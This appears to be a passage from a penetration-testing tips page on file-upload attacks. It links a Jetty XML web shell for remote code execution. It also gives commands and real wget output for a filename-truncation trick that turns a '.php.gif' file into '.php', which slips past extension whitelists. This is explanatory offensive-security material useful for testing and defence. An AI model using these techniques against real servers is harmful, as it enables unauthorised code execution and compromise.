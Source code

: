 ## Jetty RCE
Upload the XML file to `$JETTY_BASE/webapps/`
* [JettyShell.xml - From Mikhail Klyuchnikov](https://raw.githubusercontent.com/Mike-n1/tips/main/JettyShell.xml)

## wget File Upload/SSRF Trick
In some occasions you may find that a server is using wget to download files and you can indicate the URL. In these cases, the code may be checking that the extension of the downloaded files is inside a whitelist to assure that only allowed files are going to be downloaded. However, this check can be bypassed.
The maximum length of a filename in linux is 255, however, wget truncate the filenames to 236 characters. You can download a file called "A"*232+".php"+".gif", this filename will bypass the check (as in this example ".gif" is a valid extension) but wget will rename the file to "A"*232+".php".

```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080

```
```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s      

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]

```
> Note that another option you may be thinking of to bypass this check is to make the HTTP server redirect to a different file, so the initial URL will bypass the check by then wget will download the redirected file with the new name. This won't work unless wget is being used with the parameter --trust-server-names because wget will download the redirected page with the name of the file indicated in the original URL.
